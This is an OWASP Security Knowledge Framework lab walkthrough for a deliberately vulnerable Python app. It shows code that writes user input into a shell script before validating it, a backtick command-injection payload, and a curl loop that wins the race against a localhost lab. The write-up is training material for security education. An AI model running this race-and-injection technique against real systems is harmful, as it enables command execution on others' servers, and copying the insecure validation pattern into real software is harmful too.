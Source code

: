 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/python/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/python/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/python/RaceCondition/3.png)

### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    - deletes `"` and `\` from the username
    - opens `hello.sh` file
    - writes a command in it&#x20;
    - closes the file
    - logs some useful info&#x20;
    - checks if the username is in the format `[A-Za-z0-9 ]*`
    - returns the username if the regex succedes

2.  `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3.  `boot_run()` executes the `hello.sh` file
4.  `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```

{% hint style="success" %}

```
 Everything works fine, so where is the problem?
```

{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/python/RaceCondition/4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
